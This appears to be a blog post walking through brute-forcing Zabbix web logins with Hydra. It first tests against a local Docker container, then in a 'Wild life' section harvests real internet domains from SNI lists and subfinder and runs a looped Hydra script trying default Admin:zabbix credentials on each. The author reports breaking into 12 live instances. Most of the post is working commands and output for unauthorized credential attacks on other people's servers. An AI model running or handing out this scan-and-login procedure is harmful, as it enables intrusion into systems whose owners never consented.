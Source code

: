 ```yaml
---
title: "Taking over Zabbix with Hydra"
description: "The post describes a procedure of breaking into zabbix machines with Hydra. The technique uses brute force and not very effective, however can be utilized for weakly maintianed infrastrcuture."
date: 2024-05-22T01:58:40.873Z
draft: false
tags: [zabbix, hydra, nuclei, bruteforce]
categories: [computers]
thumbnail: "/article/taking-over-zabbix-with-hydra/thumb.webp"
---
```


## Lab experiment

As usual, we start with an experiment in highly constrolled conditions - in our virtual lab. 

Let's first install hydra:

```bash
sudo apt install hydra -y
```

Then let's run [zabbix appliance](https://hub.docker.com/r/zabbix/zabbix-appliance/) to have all zabbix components run in a single command:

```bash
docker run --name some-zabbix-appliance -p 80:80 -p 10051:10051 -d zabbix/zabbix-appliance:tag
```

After docker ran, we can see exposed ports:

```bash
docker ps
CONTAINER ID   IMAGE                     COMMAND                  CREATED             STATUS             PORTS                                                                                       NAMES
3b0230770aa0   zabbix/zabbix-appliance   "/sbin/tini -- /usr/…"   About an hour ago   Up About an hour   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:10051->10051/tcp, :::10051->10051/tcp, 443/tcp   some-zabbix-appliance
```

and we get into the UI by going with browser to `http://localhost`:

![ui](/article/taking-over-zabbix-with-hydra/ui.png)

Let's login with default credentials, `Admin:zabbix`:

![ui](/article/taking-over-zabbix-with-hydra/insidezabbix.png)

Now, time to test `hydra`:

```bash
hydra -l Admin -p zabbix 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

with the following results:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:21:43
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "zabbix" - 1 of 1 [child 0] (0/0)
[80][http-post-form] host: 127.0.0.1   login: Admin   password: zabbix
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:21:44
```

What if we used an invalid password, e.g. `zabbix1`?

```bash
hydra -l Admin -p zabbix1 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

prints

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:23:30
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "zabbix1" - 1 of 1 [child 0] (0/0)
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:23:30
```


We'll use [SecLists](https://github.com/danielmiessler/SecLists.git) for password lists:

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

Let's run `hydra` with `SecLists/Passwords/Common-Credentials/10k-most-common.txt`:

```bash
hydra -l Admin -P ../SecLists/Passwords/Common-Credentials/10k-most-common.txt 127.0.0.1 http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

Wow, we got an interesting result:

```bash
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-23 13:36:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://127.0.0.1:80/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "password" - 1 of 10000 [child 0] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "123456" - 2 of 10000 [child 1] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "12345678" - 3 of 10000 [child 2] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "1234" - 4 of 10000 [child 3] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "qwerty" - 5 of 10000 [child 4] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "12345" - 6 of 10000 [child 5] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "dragon" - 7 of 10000 [child 6] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "pussy" - 8 of 10000 [child 7] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "baseball" - 9 of 10000 [child 8] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "football" - 10 of 10000 [child 9] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "letmein" - 11 of 10000 [child 10] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "monkey" - 12 of 10000 [child 11] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "696969" - 13 of 10000 [child 12] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "abc123" - 14 of 10000 [child 13] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "mustang" - 15 of 10000 [child 14] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "michael" - 16 of 10000 [child 15] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "shadow" - 17 of 10000 [child 4] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "master" - 18 of 10000 [child 7] (0/0)
[ATTEMPT] target 127.0.0.1 - login "Admin" - pass "jennifer" - 19 of 10000 [child 6] (0/0)
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 123456
[80][http-post-form] host: 127.0.0.1   login: Admin   password: michael
[80][http-post-form] host: 127.0.0.1   login: Admin   password: mustang
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 12345678
[80][http-post-form] host: 127.0.0.1   login: Admin   password: abc123
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 12345
[80][http-post-form] host: 127.0.0.1   login: Admin   password: baseball
[80][http-post-form] host: 127.0.0.1   login: Admin   password: password
[80][http-post-form] host: 127.0.0.1   login: Admin   password: monkey
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 1234
[80][http-post-form] host: 127.0.0.1   login: Admin   password: letmein
[80][http-post-form] host: 127.0.0.1   login: Admin   password: football
[80][http-post-form] host: 127.0.0.1   login: Admin   password: 696969
[80][http-post-form] host: 127.0.0.1   login: Admin   password: shadow
[80][http-post-form] host: 127.0.0.1   login: Admin   password: master
[80][http-post-form] host: 127.0.0.1   login: Admin   password: jennifer
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-23 13:36:41
```

We got many matching passwords, e.g. `123456`, `michael`, etc. Probably Zabbix hide something regarding their default password. Let's go to the UI and check `Admin:123456`:

![Account is blocked](/article/taking-over-zabbix-with-hydra/blocked.png)

Oops... Ok, now it's clear. Zabbix blocked `Admin` after 19 insuccessful attempts and `hydra` did not uderstand its answer correctly because it did not find in the response `Login name or password is incorrect`: all `Account is blocked for 30 seconds` were interpreted as success.

Well, we have discovered Zabbix has an anti-bruteforce policy implemented and that makes our life hard. Therefore, we turn to a very simple and basic case of scanning of wild life zabbixes: we'll try only default zabbix creds in hope the admin forgot to change them. We should also remember that `hydra` will report false positives for any errors which differ from `Login name or password is incorrect`.

## Wild life

We want to identify zabbix services by domain names. Let's first get domains from [Kaeferjaegger.gay](https://kaeferjaeger.gay/?dir=sni-ip-ranges) and grep domains out:

```bash
grep -E -o '[a-zA-Z0-9_-]+(\.[a-zA-Z0-9_-]+)+(\.[a-zA-Z]{2,})' ~/sni_ip_ranges/phatboi.txt > domains.txt
```

Then with [subfinder](https://github.com/projectdiscovery/subfinder) let's find the subdomains:

```bash
subfinder -dL domains.txt -silent -o subdomains.txt
```

and unite both domains and subdomains:

```bash
cat domains.txt subdomains.txt | sort | uniq > alldomains.txt
```

Let's find zabbix-related ones:

```bash
grep 'zabbix' alldomains.txt > domains.zabbix
```

Now, create a small hydra runner:

```bash
#!/bin/bash
# test.sh
domain=$1
hydra -l Admin -p zabbix $domain http-post-form "/index.php:name=^USER^&password=^PASS^&autologin=1&enter=Sign+in:Login name or password is incorrect" -V
```

And finally run the test:

```bash
chmod +x test.sh
while read -r line
do
	test.sh $line
done  < domains.zabbix
```

In our test we were able to find 12 zabbix instances with default credentials. Not bad at all!

Happy hunting.